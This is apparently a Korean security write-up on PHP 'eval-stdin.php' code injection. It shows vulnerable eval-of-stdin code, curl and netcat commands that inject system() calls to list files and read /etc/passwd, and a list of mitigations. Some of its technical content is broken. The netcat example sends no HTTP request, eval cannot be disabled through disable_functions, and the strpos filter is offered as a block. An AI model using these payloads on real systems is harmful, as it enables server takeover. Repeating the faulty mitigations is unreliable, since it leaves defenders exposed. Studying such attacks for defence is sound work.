 # eval-stdin.php
what is eval-stdin.php code injection
코드 분석해보니 php 단위 테스트의 eval-stdin.php 경로를 스캔한 뒤 body 값 data에 die 함수를 실행하는 것 그래서 die 스캔이라고도 하는듯
# eval-stdin.php 코드 인젝션 공격 분석 보고서

## 1. 개요
`eval-stdin.php` 코드 인젝션 공격은 PHP의 `eval()` 함수를 이용해 원격 코드 실행(RCE, Remote Code Execution)이 가능한 취약점을 악용하는 공격입니다. 이 공격은 특히 PHP가 직접 표준 입력(stdin)에서 코드를 받아 실행하도록 구성된 환경에서 발생할 수 있습니다.

본 보고서에서는 `eval-stdin.php` 코드 인젝션의 원리, 취약점 분석, 실제 공격 예제, 대응 방법 및 보안 권장 사항을 다룹니다.

## 2. 공격 원리
공격자는 `eval-stdin.php` 파일을 이용하여 PHP 코드를 원격으로 실행할 수 있습니다. 다음과 같은 코드가 존재한다고 가정합니다.

```php
<?php
eval(file_get_contents("php://stdin"));
?>
```

위 코드는 표준 입력(stdin)에서 데이터를 읽어와 `eval()`을 통해 실행합니다. 이 경우, 공격자가 악성 PHP 코드를 전송하면 서버에서 그대로 실행되어 심각한 보안 위협이 발생할 수 있습니다.

### 2.1. 취약점 요약
- **`eval()` 함수 사용**: 동적으로 코드 실행이 가능해 보안에 취약함.
- **표준 입력을 통한 코드 실행**: 외부 입력값이 검증 없이 실행됨.
- **원격 코드 실행 가능성**: 공격자가 원하는 코드를 주입하여 서버를 장악할 수 있음.

## 3. 공격 예제

공격자는 `curl` 또는 `nc`(netcat) 명령어를 이용하여 원격에서 악성 코드를 주입할 수 있습니다.

### 3.1. `curl`을 이용한 공격
```sh
echo '<?php system("ls -la"); ?>' | curl -X POST --data-binary @- http://target.com/eval-stdin.php
```
위 명령어는 `system("ls -la");` 코드를 `eval-stdin.php`에 전달하여 실행시키는 방식입니다.

### 3.2. `nc`(netcat)를 이용한 공격
```sh
echo '<?php system("cat /etc/passwd"); ?>' | nc target.com 80
```
이 코드는 서버에서 `/etc/passwd` 파일을 읽어 공격자에게 반환하도록 합니다.

## 4. 대응 방법

### 4.1. `eval()` 함수 제거
`eval()` 함수는 보안상 매우 위험하므로 사용하지 않는 것이 최선입니다. `eval()`을 대체할 수 있는 방법을 고려해야 합니다.

### 4.2. 표준 입력을 통한 실행 차단
PHP에서 표준 입력을 직접 실행하지 않도록 방어해야 합니다.

```php
<?php
// 입력 데이터 실행 금지
$input = file_get_contents("php://stdin");
if (strpos($input, '<?php') !== false) {
    die("실행이 차단되었습니다.");
}
?>
```

### 4.3. 웹 방화벽(WAF) 적용
웹 방화벽(WAF)을 설정하여 `eval()` 및 기타 위험한 함수의 사용을 차단합니다.

### 4.4. PHP 설정 강화
PHP 설정에서 위험한 함수 실행을 제한할 수 있습니다.

`php.ini` 설정:
```ini
disable_functions = "eval, system, exec, shell_exec, passthru, popen, proc_open"
```

## 5. 결론
`eval-stdin.php` 취약점은 `eval()` 함수와 표준 입력을 결합하여 원격 코드 실행을 가능하게 만드는 심각한 보안 위협입니다. 이와 같은 공격을 방지하려면 `eval()`을 사용하지 않는 코드 작성 습관을 들이고, 보안 설정을 강화해야 합니다. 웹 방화벽과 보안 패치를 적용하는 것도 중요한 대응 방법이 될 수 있습니다.
